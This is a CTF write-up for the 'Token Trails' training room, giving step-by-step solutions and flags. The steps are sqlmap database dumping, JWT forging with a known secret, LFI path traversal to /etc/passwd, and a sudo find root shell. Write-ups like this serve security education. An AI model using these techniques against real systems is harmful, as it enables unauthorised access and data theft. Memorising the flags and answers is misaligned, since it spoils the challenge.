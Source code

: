 
# 🧠 Token Trails – Official Write-Up

> Welcome to **Token Trails**, a beginner-to-intermediate level CTF room focused on web exploitation, token manipulation, and privilege escalation.

---

## 📜 Overview

- **Room Name:** Token Trails  
- **Difficulty:** Easy–Medium  
- **Platform:** Ubuntu (Web + SSH)  
- **Focus Areas:** Recon, SQLi, JWT, LFI, Linux Privilege Escalation  

---

## 🔍 Task 1: View Page Source

Navigate to the homepage at `/index.php`.  
Right-click > View Page Source.

🔐 **Flag:**  
FLAG{web_source_master}


---

## 💉 Task 2: SQL Injection – Credential Leak

The login form on `/login.php` is vulnerable to SQL injection.

### 🔍 Tool:
Use **SQLMap** to enumerate the database and extract user credentials.


sqlmap -u "http://<ip>/token_trails/login.php?username=test" --dbs
sqlmap -u "http://<ip>/token_trails/login.php?username=test" -D ctf -T users --dump

🔐 Task 3: JWT Manipulation – Trust Issues
The server sets a JWT token in the auth cookie after login.

🔍 Step-by-step:
Decode the JWT using https://jwt.io

Payload:
{ "user": "user" }
Modify to:
{ "user": "admin" }
Secret used: secrettoken

Re-sign the JWT with HS256 and replace your cookie

✅ Flag:
FLAG{jwt_admin_access}
🗂️ Task 4: Local File Inclusion – Source Discovery
The file /include.php has a vulnerable page parameter.

🔍 Exploit:

http://<ip>/token_trails/include.php?page=../../../../etc/passwd
Check internal PHP files:

http://<ip>/token_trails/include.php?page=../../../../var/www/html/token_trails/secret.php
You’ll find the next flag there.

✅ Flag:
FLAG{lfi_pwned_path}


🧑‍💻 Task 5: Privilege Escalation – Finders Keepers
You now have SSH access as ctfplayer.

🔍 Login:

ssh ctfplayer@<ip>
# password: ctfplayer123 (or as configured)
Check for sudo rights:

bash
Copy
Edit
sudo -l
You’ll see:

arduino
(ALL) NOPASSWD: /usr/bin/find
🔓 Privilege Escalation:
Exploit the find binary to get root shell:


sudo find . -exec /bin/bash \;
whoami  # root
🔍 Final Flag:
cat /root/root_flag.txt
✅ Flag:
FLAG{root_access_gained}

